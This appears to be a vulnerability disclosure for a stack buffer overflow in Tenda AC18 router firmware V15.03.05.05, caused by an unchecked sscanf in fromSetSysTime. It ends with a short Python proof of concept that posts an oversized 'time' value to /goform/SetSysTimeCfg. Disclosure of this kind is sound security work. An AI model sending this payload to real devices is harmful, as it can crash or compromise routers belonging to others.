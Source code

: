 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `fromSetSysTime` function. The `v20` variable receives the `time` parameter from a POST request and is assigned to `v7~v12` by `sscanf`. However, since the user can control the input of `time`, the statement `sscanf(v20, "%[^-]-%[^-]-%[^ ] %[^:]:%[^:]:%s", v12, v11, v10, v9, v8, v7);` can cause a buffer overflow. The user-provided  `list` can exceed the capacity of the `v7~v12` array, triggering this security vulnerability.

![image-20240316222103120](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316222103120.png)

![image-20240316222047423](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316222047423.png)

![image-20240316222026197](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316222026197.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetSysTimeCfg"
payload = b"a"*2000

data = {
        'timeType':'manual',
        'time':payload,
    }
response = requests.post(url, data=data)
print(response.text)
```

![image-20240316221759943](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316221759943.png)
